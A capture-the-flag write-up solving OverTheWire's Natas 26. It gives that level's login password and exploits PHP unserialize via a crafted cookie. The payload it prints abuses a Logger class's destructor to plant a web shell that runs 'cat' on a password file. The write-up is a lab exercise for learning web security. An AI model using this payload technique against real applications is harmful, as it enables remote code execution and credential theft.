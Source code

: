 # Natas 26

To see the site:

1. Go to [http://natas26.natas.labs.overthewire.org](http://natas26.natas.labs.overthewire.org)
2. Log in with natas26, oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T

Looking at the code, there doesn't seem to be much you can do. A class called Logger looks promising, with its write methods, but the write path doesn't seem controllable and the class isn't used anywhere anyway. The rest of the code seems straightforward, with injection opportunities via the parameters, session id and base64 encoded, serialized 'drawing' cookie, however messing around with this got me knowhere. I could potentially control the name of the image, but I couldn't control its content except by submitting valid values, drawing lines.

In .NET languages, serialization/unserialization is occasionally a serious problem, and given everything in PHP land seems to be .NET-but-much-much-worse, I did a quick look to see if there are exploits with unserialize. And there is: [https://www.notsosecure.com/remote-code-execution-via-php-unserialize/](https://www.notsosecure.com/remote-code-execution-via-php-unserialize/).

In brief, if you can submit your own input to unserialize (which I can, since its a base 64 encoded cookie), and if you have a class handy which does file writing when destructed (hello Logger class!), then you can craft a serialized payload that will instantiate your class on the server, writing what you wish when its thrown away.

The payload below does just that, placing a php file in the images directory (which we know is already write-accessible/user-readable, as the generated images go there) with a payload that reads the password.

`O:6:\"Logger\":3:{s:15:\"\0Logger\0logFile\";s:36:\"/var/www/natas/natas26/img/exfil.php\";s:15:\"\0Logger\0initMsg\";s:0:\"\";s:15:\"\0Logger\0exitMsg\";s:52:\"<?php passthru('cat /etc/natas_webpass/natas27'); ?>\";}`

FYI, The above string has its quotes already escaped, to make it easier to paste into base64_encode or similar. For the raw value, replace all `\"` with `"`
FYI2, the Logger class has private variables, and these are settable using the syntax `\0[classname]\0[property name]`. If they were public the `\0[classname]\0` wouldn't be necessary.

3. base64 encode the payload string (with php interactive you can use `base64_encode`), and set/add the `drawing` cookie with the value.
4. Reload the page, then navigate to `/img/exfil.php`. It should contain the password for natas27, twice (the unserialize occurs twice in the code and the Logger appends).

